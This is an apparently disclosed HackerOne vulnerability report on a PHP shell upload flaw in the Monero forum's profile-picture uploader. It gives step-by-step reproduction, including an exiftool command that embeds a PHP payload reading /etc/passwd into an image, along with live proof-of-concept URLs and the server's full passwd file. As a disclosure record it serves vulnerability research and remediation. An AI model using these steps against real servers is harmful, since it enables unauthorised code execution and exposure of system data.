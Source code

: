 # forum.getmonero.org Shell upload

## Report Details
- **Report ID**: 357858
- **URL**: https://hackerone.com/reports/357858
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-26T13:26:09.625Z
- **Disclosed**: 2018-07-27T11:54:11.453Z

## Reporter
- **Username**: kaulse
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
**Summary:** 
The method uploadProfile in the UsersController allows an attacker to upload a shell to the target server due to lack of image validation.

**Description:**

## Steps To Reproduce:
  1. Open POC https://forum.getmonero.org/uploads/profile/lNobodyl1527340454.php or https://forum.getmonero.org/uploads/profile/lNobodyl1527341021.php
Or just follow these steps:
1. Find a nice picture and embed the shell into the image like this `exiftool -documentname='<?php echo file_get_contents("/etc/passwd"); ?>' picture.png`
2. Rename the jpg/png picture to the `.php` extension.
3. Upload the picture.
4. You will get an 500 error page. Ignore it. Grep the time from the response and convert it to a timestamp.
5. Use the timestamp to find your shell: `https://forum.getmonero.org/uploads/profile/[USERNAMAE][timestamp].php`


## Gathered infos:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
bind:x:103:109::/var/cache/bind:/bin/false
ntpd:x:104:110::/var/run/openntpd:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
fluffypony:x:1000:1000:Fluffypony,,,:/home/fluffypony:/bin/bash
postfix:x:106:114::/var/spool/postfix:/bin/false
ossec:x:1001:1001::/var/lib/dome9/ossec:/bin/false
mysql:x:107:116:MySQL Server,,,:/var/lib/mysql:/bin/false
redis:x:108:118:redis server,,,:/var/lib/redis:/bin/false
pollinate:x:109:1::/var/cache/pollinate:/bin/false
gearman:x:110:119:Gearman Job Server,,,:/var/lib/gearman:/bin/false
memcache:x:111:120:Memcached,,,:/nonexistent:/bin/false
debian-tor:x:112:121::/var/lib/tor:/bin/false
systemd-timesync:x:113:123:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:114:124:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:115:125:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:116:126:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:100:101::/run/uuidd:/bin/false
_apt:x:117:65534::/nonexistent:/bin/false
blackfire:x:999:999::/dev/null:
colord:x:118:129:colord colour management daemon,,,:/var/lib/colord:/bin/false
oident:x:119:130::/:/bin/false
```

## Impact

A hacker can hack the server ^^.

## Attachments
No attachments
